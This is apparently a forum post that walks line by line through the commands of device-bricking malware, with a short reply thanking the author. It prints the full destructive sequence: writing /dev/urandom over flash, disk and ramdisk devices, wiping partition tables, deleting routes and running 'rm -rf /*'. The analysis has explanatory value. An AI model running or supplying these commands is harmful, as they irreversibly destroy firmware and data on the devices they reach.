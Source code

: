 
    Code
    busybox cat /dev/urandom >/dev/mtdblock0 &
    busybox cat /dev/urandom >/dev/mtdblock10 &

    These commands are overwriting flash memory (very likely the NOR or NAND chip).
    This is usually where the firmware is located.
    These commands are important because the device is effectively bricked without a valid firmware image.

    Code
    busybox cat /dev/urandom >/dev/sda &
    busybox cat /dev/urandom >/dev/sdb &

    These commands overwrite the first 2 physical disks of the SCSI or SATA HDD.

    Code
    busybox cat /dev/urandom >/dev/mmc0 &

    This command also overwrites flash memory, but rather than overwriting the NOR or NAND card, it'll overwrite the MultiMediaCard or the SD card.
    The firmware can also be found here.

    Code
    busybox cat /dev/urandom >/dev/ram0 &

    This command overwrites the initrd or initramfs image, which are ramdisks used for booting the system.
    In short, initrd and initramfs are ramdisks used for holding a temporary root filesystem, which is accessed during the boot process before the actual root filesystem is mounted on the HDD.
    It does things such as loading the appropriate kernel modules for accessing the HDD.

    Code
    fdisk -l

    This command displays partition information.

    Code
    fdisk -C 1 -H 1 -S 1 /dev/mtd0
    w
    fdish -C 1 -H 1 -S 1 /dev/mtd1
    w
    fdisk -C 1 -H 1 -S 1 /dev/sda
    w
    fdisk -C 1 -H 1 -S 1 /dev/mtdblock0
    w

    These commands write changes to disk for their respective non-volatile memory locations.

    Code
    route del default;iproute del default;ip route del default;rm -rf /* 2>/dev/null & sysctl -w net.ipv4.tcp_timestamp=0;sysctl -w kernel.threads-max=1

    These commands;

        Delete the default route, which is the route that the system forwards packets to when it doesn't have an entry in the routing table for a given IP destination address.
        Delete all of the files in the root filesystem.
        Disable TCP timestamps (why? I'm honestly not sure...)
        Limit the max amount of system processes to 1.


    Code
    halt -n -f
    reboot

    Reboot the device.

    A lot of these commands are unnecessary.


First, thank you so much on your detailed post! I gave you a +3 because of the effort you put in! Welcome to HF by the way!

Second, you mentioned lots of these commands were unnecessary, can you point out which ones? 
